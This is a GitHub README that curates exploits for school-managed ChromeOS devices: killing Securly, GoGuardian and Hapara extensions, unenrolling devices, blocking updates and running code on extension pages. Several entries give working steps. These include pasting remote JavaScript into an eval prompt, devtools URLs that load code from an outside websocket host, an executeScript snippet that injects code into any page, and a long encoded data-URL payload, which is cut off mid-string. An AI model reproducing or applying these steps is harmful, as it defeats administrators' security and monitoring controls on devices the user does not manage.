





# EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there are more! Some of these exploits can destroy your computer if misused. So PLEASE, PLEASE make sure you follow these instructions very carefully!

<b>Need help? Ask for help <a href="https://github.com/3kh0/ext-remover/discussions">here</a>!</b>

Please use these only when you have permission, I (3kh0) do not condone the use of any exploits for illegal purposes!


Image Credit: LittleMissNyan

Thank you to all of the contributors! You all are pretty epic :D

<a href="https://github.com/3kh0/ext-remover/graphs/contributors"></a>

- [EXT-REMOVER](#ext-remover)
  * [Securly Kill](#securly-kill)
  * [BR1CK](#br1ck)
  * [BadRecovery](#badrecovery)
  * [Rigtools](#rigtools)
  * [ExtPrint3r](#extprint3r)
  * [CryptoSmite *Unenrollment*](#cryptosmite-unenrollment)
  * [SH1MMER *Unenrollment*](#sh1mmer-unenrollment)
  * [Hapara Focus Session Bypass](#hapara-focus-session-bypass)
  * [GuardianTabCrash *Unrestricted browsing*](#guardiantabcrash-unrestricted-browsing)
  * [Skiovox *Unrestricted browsing*](#skiovox-unrestricted-browsing)
  * [LTBEEF *Disable extensions*](#ltbeef-disable-extensions)
  * [LoMoH *Disable extensions*](#lomoh-disable-extensions)
  * [LTMEAT *Disable extensions*](#ltmeat-disable-extensions)
  * [LTMEAT Flood *Freeze extensions*](#ltmeat-flood-freeze-extensions)
  * [Temp TMEAT *Freeze extensions*](#temp-tmeat-freeze-extensions)
  * [Baby LTMEAT *Freeze extensions*](#baby-ltmeat-freeze-extensions)
  * [LTMEAT Print *Freeze extensions*](#ltmeat-print-freeze-extensions)
  * [LTMEAT Overload *Hang extensions*](#ltmeat-overload-hang-extensions)
  * [Dextensify *Freeze extensions*](#dextensify-freeze-extensions)
  * [JPCMG *LTBEEF w/ Service workers*](#jpcmg-ltbeef-w-service-workers)
  * [Corkey *Corrupt extensions*](#corkey-corrupt-extensions)
  * [Extension Launcher *Install extensions w/o allowlist*](#extension-launcher-install-extensions-wo-allowlist)
  * [Point-Blank *Execute scripts on extension pages*](#point-blank-execute-scripts-on-extension-pages)
  * [UBoss *Tamper with IBoss*](#uboss-tamper-with-iboss)
  * [CAUB *Prevent Updates*](#caub-prevent-updates)
  * [CAUB Flags *Prevent Updates*](#caub-flags-prevent-updates)
  * [Blank3r](#blank3r)
  * [Downgrading *Change versions*](#downgrading-change-versions)
  * [Pollen *Policy Editor*](#pollen-policy-editor)
  * [Killcurly *Break extensions*](#killcurly-break-extensions)
  * [Shimboot *Boot Linux*](#shimboot-boot-linux)
  * [uBlock Run *Run Code On Pages*](#ublock-run-run-code-on-pages)
  * [uRun - Bypass bookmarklet restrictions with uBlock](#urun---bypass-bookmarklet-restrictions-with-ublock)
  * [Quick View *Bypass extensions*](#quick-view-bypass-extensions)
  * [Buypass *Bypass extensions*](#buypass-bypass-extensions)
  * [Chaos *Hapara bypass*](#chaos-hapara-bypass)
  * [SOT Exploit *Open URLs in OneTab*](#sot-exploit-open-urls-in-onetab)
  * [GoGuardian GoAway *GoGuardian bypass*](#goguardian-goaway-goguardian-bypass)
  * [Microsoft Labs](#microsoft-labs-virtualbox-but-it-got-20-doses-of-the-covid-vaccine)

<small><i><a href='http://github.com/3kh0/readme-toc/'>Table of contents generated with readme-toc</a></i></small>

## Securly Kill

You must be able to install ublock origin to do this.
Steps:
1. Install Ublock Origin extension
2. Set up URun
3. Go to https://securly.com and click Ctrl + Shift + ` (It will say blocked but its fine) ## DO NOT CLOSE THE OPENED WINDOW!!!
4. Remove URun and set up UBlock run
5. Copy the code from here: https://raw.githubusercontent.com/zek-c/Securly-Kill-V111/refs/heads/main/kill.js
6. Go back to https://securly.com and click Ctrl + Shift + ` again. The prompt will open in the blocked urun window, but that is how it should work
7. Paste the code you copied into the eval prompt and click enter
8. A big red OFF button should show up. Click off to kill the extension.

## BR1CK

**BR1CK** is an exploit that allows users to unenroll/deprovise managed chromebooks. It currently works on all versions for **CR50s** (ti50 isn't and will not be supported)
for instructions visit: <a href='https://br1ck.vercel.app'>BR1CK's website</a> or visit the repository to download the website's .ZIP <a href='https://github.com/Byteeeeeeee/br1ck'>here</a>

[**🔼 Back to top**](#ext-remover)

## BadRecovery

**BadRecovery (Formerly OlyBmmer)** is an exploit that allows users to unenroll school-managed Chromebooks. Due to the specificness of this exploit, please visit the linked repository: <a href='https://github.com/BinBashBanana/badrecovery'>BadRecovery Exploit</a>

[**🔼 Back to top**](#ext-remover)

## Rigtools

**Rigtools** is an exploit that allows users to run code on extensions, disable extensions, and basically do whatever they want with an extension as long as it has the correct permissions. As of October 2024, it is **patched** in Chrome OS 129 and above.

### How do you use it?

1. Open this link and just leave it alone. (Note: This will not run code it's just there to fix the second page.)
```md
devtools://devtools/bundled/devtools_app.html
```
2. Open this link and go to Network

```md
devtools://devtools/bundled/devtools_app.html?experiments=true&ws=rig.kxtz.dev/
```
3. Double-Click the black/grey box:


4. Click extension-ID and find your extension-ID.
5. Paste in the extension ID and it should load a filesystem: page. You may have other extensions under it, you can disable those too.


Lastly, You can run code like
```js
alert("hi")
```
so if you have the correct permissions on your extensions manifest file, you can run this code below to run a certain piece of code on any page:
    - tabs
    - activeTab
    - browserAction
    - 'unsafe-eval' set in the CSP (content-security-policy)
If it does not have these permissions, this will not work. (These are in the manifest file.)
```js
chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `location.href="javascript:replace this part with your own bookmarklet.";`});});
```
and if it works, nice! If it doesn't, then cry in a corner.


Link to repo to self host for new/unofficial ui: https://github.com/Sincereham222/rigtools-newui
Link to repo for official ui: https://github.com/FWSmasher/rigtools

[**🔼 Back to top**](#ext-remover)
## ExtPrint3r

**ExtPrint3r** is an exploit based on [LTMEAT Print](#ltmeat-print-freeze-extensions) that allows users to toggle admin-installed extensions on and off by printing iframes. This has been **patched** in versions higher than Chrome OS 134, and no fix has been found yet.

### How do I use it?

1. Copy and open this link:
```
data:text/html;charset=utf-8,%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%3Ctitle%3EE%E2%80%8Dx%E2%80%8DtP%E2%80%8Dr%E2%80%8Di%E2%80%8Dn%E2%80%8Dt%E2%80%8D3%E2%80%8Dr%3C%2Ftitle%3E%0A%20%20%3Clink%20rel%3D%22shortcut%20icon%22%20type%3D%22image%2Fpng%22%20href%3D%22data%3Aimage%2Fpng%3Bbase64%2CiVBORw0KGgoAAAANSUhEUgAAAhwAAAIcCAYAAAC9%2Fnd8AAAAAXNSR0IArs4c6QAAIABJREFUeF7tnQmYXVWV71dNSaWSVAbInIDMM8g8j0FAARlkShiUbnBsAUGw1W776dP2Pd9no4K23drKA6EECfMghDDKFBAMUwZIwpSBBJKqSlUqSVVS79tX6QdaSZ1z7tnD2vt3%2B%2FNr295n77V%2B%2F3WLn%2BdONcIDAhCAAAQgAAEIWCZQY3l%2FtocABCAAAQhAAAKCcDAEEIAABCAAAQhYJ4BwWEfMARCAAAQgAAEIIBzMAAQgAAEIQAAC1gkgHNYRcwAEIAABCEAAAggHMwABCEAAAhCAgHUCCId1xBwAAQhAAAIQgADCwQxAAAIQgAAEIGCdAMJhHTEHQAACEIAABCCAcDADEIAABCAAAQhYJ4BwWEfMARCAAAQgAAEIIBzMAAQgAAEIQAAC1gkgHNYRcwAEIAABCEAAAggHMwABCEAAAhCAgHUCCId1xBwAAQhAAAIQgADCwQxAAAIQgAAEIGCdAMJhHTEHQAACEIAABCCAcDADEIAABCAAAQhYJ4BwWEfMARCAAAQgAAEIIBzMAAQgAAEIQAAC1gkgHNYRcwAEIAABCEAAAggHMwABCEAAAhCAgHUCCId1xBwAAQhAAAIQgADCwQxAAAIQgAAEIGCdAMJhHTEHQAACEIAABCCAcDADEIAABCAAAQhYJ4BwWEfMARCAAAQgAAEIIBzMAAQgAAEIQAAC1gkgHNYRcwAEIAABCEAAAggHMwABCEAAAhCAgHUCCId1xBwAAQhAAAIQgADCwQxAAAIQgAAEIGCdAMJhHTEHQAACEIAABCCAcDADEIAABCAAAQhYJ4BwWEfMARCAAAQgAAEIIBzMAAQgAAEIQAAC1gkgHNYRcwAEIAABCEAAAggHMwABCEAAAhCAgHUCCId1xBwAAQhAAAIQgADCwQxAAAIQgAAEIGCdAMJhHTEHQAACEIAABCCAcDADEIAABCAAAQhYJ4BwWEfMARCAAAQgAAEIIBzMAAQgAAEIQAAC1gkgHNYRcwAEIAABCEAAAggHMwABCEAAAhCAgHUCCId1xBwAAQhAAAIQgADCwQxAAAIQgAAEIGCdAMJhHTEHQAACEIAABCCAcDADEIAABCAAAQhYJ4BwWEfMARCAAAQgAAEIIBzMAAQgAAEIQAAC1gkgHNYRcwAEIAABCEAAAggHMwABCEAAAhCAgHUCCId1xBwAAQhAAAIQgADCwQxAAAIQgAAEIGCdAMJhHTEHQAACEIAABCCAcDADEIAABCAAAQhYJ4BwWEfMARCAAAQgAAEIIBzMAAQgAAEIQAAC1gkgHNYRcwAEIAABCEAAAggHMwABCEAAAhCAgHUCCId1xBwAAQhAAAIQgADCwQxAAAIQgAAEIGCdAMJhHTEHQAACEIAABCCAcDADEIAABCAAAQhYJ4BwWEfMARCAAAQgAAEIIBzMAAQgAAEIQAAC1gkgHNYR%2BzvgrLPO6qypqWnyVwEnQwACEOiXwJqWlpZB%2Fa5igXoCCIf6CDfewJQpU3p7eusj7pDWIAAB7QTqa3qkpaWFfxZpDzJD%2FYScAZLWJQiH1uSoGwLpEEA40ska4Yg4a4Qj4nBpDQKREEA4IgkyQxsIRwZIWpcgHFqTo24IpEMA4Ugna4Qj4qwRjojDpTUIREIA4YgkyAxtIBwZIGldgnBoTY66IZAOAYQjnawRjoizRjgiDpfWIBAJAYQjkiAztIFwZICkdQnCoTU56oZAOgQQjnSyRjgizhrhiDhcWoNAJAQQjkiCzNAGwpEBktYlCIfW5KgbAukQQDjSyRrhiDhrhCPicGkNApEQQDgiCTJDGwhHBkhalyAcWpOjbgikQwDhSCdrhCPirBGOiMOlNQhEQgDhiCTIDG0gHBkgaV2CcGhNjrohkA4BhCOdrBGOiLNGOCIOl9YgEAkBhCOSIDO0gXBkgKR1CcKhNTnqhkA6BBCOdLJGOCLOGuGIOFxag0AkBBCOSILM0AbCkQGS1iUIh9bkqBsC6RBAONLJGuGIOGuEI%2BJwaQ0CkRBAOCIJMkMbCEcGSFqXIBxak6NuCKRDAOFIJ2uEI%2BKsEY6Iw6U1CERCAOGIJMgMbSAcGSBpXYJwaE2OuiGQDgGEI52sEY6Is0Y4Ig6X1iAQCQGEI5IgM7SBcGSApHUJwqE1OeqGQDoEEI50skY4Is4a4Yg4XFqDQCQEEI5IgszQBsKRAZLWJQiH1uSoGwLpEEA40ska4Yg4a4Qj4nBpDQKREEA4IgkyQxsIRwZIWpcgHFqTo24IpEMA4Ugna4Qj4qwRjojDpTUIREIA4YgkyAxtIBwZIGldgnBoTY66IZAOAYQjnawRjoizRjgiDpfWIBAJAYQjkiAztIFwZICkdQnCoTU56oZAOgQQjnSyRjgizhrhiDhcWoNAJAQQjkiCzNAGwpEBktYlCIfW5KgbAukQQDjSyRrhiDhrhCPicGkNApEQQDgiCTJDGwhHBkhalyAcWpOjbgikQwDhSCdrhCPirBGOiMOlNQhEQgDhiCTIDG0gHBkgaV2CcGhNjrohkA4BhCOdrBGOiLNGOCIOl9YgEAkBhCOSIDO0gXBkgKR1CcKhNTnqhkA6BBCOdLJGOCLOGuGIOFxag0AkBBCOSILM0AbCkQGS1iUIh9bkqBsC6RBAONLJGuGIOGuEI%2BJwaQ0CkRBAOCIJMkMbCEcGSFqXIBxak6NuCKRDAOFIJ2uEI%2BKsEY6Iw6U1CERCAOGIJMgMbSAcGSBpXYJwaE2OuiGQDgGEI52sEY6Is0Y4Ig6X1iAQCQGEI5IgM7SBcGSApHUJwqE1OeqGQDoEEI50skY4Is4a4Yg4XFqDQCQEEI5IgszQBsKRAZLWJQiH1uSoGwLpEEA40ska4Yg4a4Qj4nBpDQKREEA4IgkyQxsIRwZIWpcgHFqTo24IpEMA4Ugna4Qj4qwRjojDpTUIREIA4YgkyAxtIBwZIGldgnBoTY66IZAOAYQjnawRjoizRjgiDpfWIBAJAYQjkiAztIFwZICkdQnCoTU56oZAOgQQjnSyRjgizhrhiDhcWoNAJAQQjkiCzNAGwpEBktYlCIfW5KgbAukQQDjSyRrhiDhrhCPicGkNApEQQDgiCTJDGwhHBkhalyAcWpOjbgikQwDhSCdrhCPirBGOiMOlNQhEQgDhiCTIDG0gHBkgaV2CcGhNjrohkA4BhCOdrBGOiLNGOCIOl9YgEAkBhCOSIDO0gXBkgKR1CcKhNTnqhkA6BBCOdLJGOCLOGuGIOFxag0AkBBCOSILM0AbCkQGS1iUIh9bkqBsC6RBAONLJGuGIOGuEI%2BJwaQ0CkRBAOCIJMkMb0QrHlClT2kSkOQODqJf09NZH3R%2FNQQACugkY4eDxIQLtLS0tw2JkErNw9Kb%2BD1vzRE6dQYxPWnqCQEwE%2BDv14TRjvuODcMT0zP2rXngiRxwurUEgEgL8nUI41I8y718Q4YmsfoxpAALRE%2BDvFMKhfsgRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxxzhQDjUDzENQCABAggHwqF%2BzBEOhEP9ENMABBIggHAgHOrHHOFAONQPMQ1AIAECCAfCoX7MEQ6EQ%2F0Q0wAEEiCAcCAc6scc4UA41A8xDUAgAQIIB8KhfswRDoRD%2FRDTAAQSIIBwIBzqxzxU4Rg0oEa6u7vV86UBCEAAArERqKurk7U9NV7bMgLW0tLitwhLBKJsyrAKVTjMMN1www2W4mRbCEAAAhAoSmDq1KnS01tf9PJSrkM4SsHodhOEwy1vToMABCCgnQDCYTdB7nDY5fs3u3OHwzFwjoMABCCQkQDCkRFUwWUIR0FwRS9DOIqS4zoIQAACdgkgHHb5Ihx2%2BXKHwzFfjoMABCBQlADCUZRctusQjmycSlvFHY7SULIRBCAAgVIJIByl4vybzRAOu3y5w%2BGYL8dBAAIQKEoA4ShKLtt1CEc2TqWt4g5HaSjZCAIQgECpBBCOUnFyh8Muzv53Rzj6Z8QKCEAAAj4IIBx2qXOHwy5fXlJxzJfjIAABCBQlgHAUJZftOoQjG6fSVnGHozSUbAQBCECgVAIIR6k4eUnFLs7%2Bd0c4%2BmfECghAAAI%2BCCAcdqlzh8MuX15SccyX4yAAAQgUJYBwFCWX7TqEIxun0lZxh6M0lGwEAQhAoFQCCEepOHlJxS7O%2FndHOPpnxAoIQAACPgggHHapc4fDLl9eUnHMl%2BMgAAEIFCWAcBQll%2B06hCMbp9JWcYejNJRsBAEIQKBUAghHqTh5ScUuzv53Rzj6Z8QKCEAAAj4IIBx2qXOHwy5fXlJxzJfjIAABCBQlgHAUJZftOoQjG6fSVnGHozSUbAQBCECgVAIIR6k4eUnFLs7%2Bd0c4%2BmfECghAAAI%2BCCAcdqlzh8MuX15SccyX4yAAAQgUJYBwFCWX7TqEIxun0lZxh6M0lGwEAQhAoFQCCEepOHlJxS7O%2Fnd3LRwXXnihdHZ29l8YKyAAAQh4JDB48GD5xS9%2B4bECEYTDLn7ucNjl6%2F0llRCeQI4RcxwEIKCQgOv%2FMtYXohD%2BXhoOLS0tUf6zOcqmzCBNmTKlt6e3PrinnesnVQhPoOBCoCAIQCA4Aq7%2FNiIc7kcA4XDM3PWTCuFwHDDHQQAChQi4%2FtuIcBSKqaqLEI6q8OW%2F2PWTCuHInxFXQAAC7gm4%2FtuIcLjPGOFwzNz1kwrhcBwwx0EAAoUIuP7biHAUiqmqixCOqvDlv9j1kwrhyJ8RV0AAAu4JuP7biHC4zxjhcMzc9ZMK4XAcMMdBAAKFCLj%2B24hwFIqpqosQjqrw5b%2FY9ZMK4cifEVdAAALuCbj%2B24hwuM8Y4XDM3PWTCuFwHDDHQQAChQi4%2FtuIcBSKqaqLEI6q8OW%2F2PWTCuHInxFXQAAC7gm4%2FtuIcLjPGOFwzNz1kwrhcBwwx0EAAoUIuP7biHAUiqmqixCOqvDlv9j1kwrhyJ8RV0AAAu4JuP7biHC4zxjhcMzc9ZMK4XAcMMdBAAKFCLj%2B24hwFIqpqosQjqrw5b%2FY9ZMK4cifEVdAAALuCbj%2B24hwuM8Y4XDM3PWTCuFwHLCC42pqaqS2tvYv%2F%2Frzn4ANG3plw4YNlX%2F19vYq6IISYyPg%2Bm8jwuF%2BghAOx8xdP6kQDscBB3pcfX29NDYOlAEDBsigxkYZPny4NDcPlcbGxopgrFmzRtra2qW1rU3WrFkr69atk7Vr10pPT0%2BgHVFWbARc%2F21EONxPEMLhmLnrJxXC4TjggI4zdzIGDhwog5uaZMstt5A99thNdth%2BOxk%2FbmxFNPp6dHV1ydtvL5K5816TWS%2B8IG%2B9vUg6Oztl3bpu7nwElG2Mpbj%2B24hwuJ8ihMMxc9dPKoTDccCBHNfQ0CDDhjXLvvvsLUcdcZhsscUkMQKS52FeXlmw8HWZ8eDD8qdZL0h7e7t0d3PHIw9D1mYn4PpvI8KRPZuyVub7C1TWqQ72mTJlSm9Pb72Dk%2FId4fpJhXDky0f7aiMVgwc3yW677iKnfeoUmTRxQiktvTZ%2FgUy75XaZM3eerF69mrsdpVBlkw8ScP23EeFwP38Ih2Pmrp9UCIfjgD0eZ2Rj5IgRcsrJJ8rko46Qurq6Uqvp7u6Wu%2B%2B5T35%2F%2F3RZubIV6SiVLpu5%2FtuIcLifOYTDMXPXTyqEw3HAno4znzoZN3aMXHjB%2BbLzTjtareKZZ%2F8o113%2FW1m2bHnlUy08IFAGAdd%2FGxGOMlLLtwfCkY9X1atdP6kQjqojC34Dc2dj3Lix8uUvfV622XorJ%2FW%2B8OJL8otfXiPLli%2FnTocT4vEf4vpvI8LhfqYQDsfMhwyqr3wE0eUjxPeyuOw%2F5rOMbJiPuF785S9Yv7Px1xyfnvmM%2FNevr618nJbv7oh5ytz0ZoTD98O82bprnd%2FvoTEcWlpaovxnc5RNmaEN9U2jrp9QZngRDtfU3Z1nPt567jlT5GOTj3R36AdOunnabXLn3fdIV5dbifbSLIdaJcDfqj%2FjRTisjpmdzRGO%2Fz%2B8CIedGfO9q3lT6L777CWXXPSlyreG%2BnisXbtOfvDDK%2BWVV%2BbI%2BvXrfZTAmZEQQDgQDrWjjHAgHGqHN0Ph5qWU5qFD5dv%2F8k0ZP35chivsLZk9e67824%2BukvZVq3hpxR7m6HdGOBAOtUOOcCAcaoc3Q%2BHm7saxxxwtnznv7Ayr7S4x79%2F4ydX%2FLk%2FPfJavQreLOurdEQ6EQ%2B2AIxwIh9rhzVD44MGD5X%2F%2Bj3%2BSiSV9sVeGIze55OWXZ8sPf%2FQT6ejorHYrrk%2BUAMKBcKgdfYQD4VA7vP0Ubt6vYb5J9Bv%2F%2BNXcX1dui4l5%2F8Y%2Ffes7svD1N%2FhuDluQI98X4UA41I44woFwqB3efgpvaKiX886ZWnlJJaRHy403yz33%2Fl7MG0l5QCAvAYQD4cg7M8GsRzgQjmCGseRCzEdhv%2Fedb8mkSRNL3rm67Wa98KL86Mc%2Flc7Vq6vbiKuTJIBwIBxqBx%2FhQDjUDu8mCq980dewYfKzq68s%2FbdSquW1YsVK%2Bdo3viVtbW3VbsX1CRJAOBAOtWOPcCAcaoe3H%2BHYdtttKnc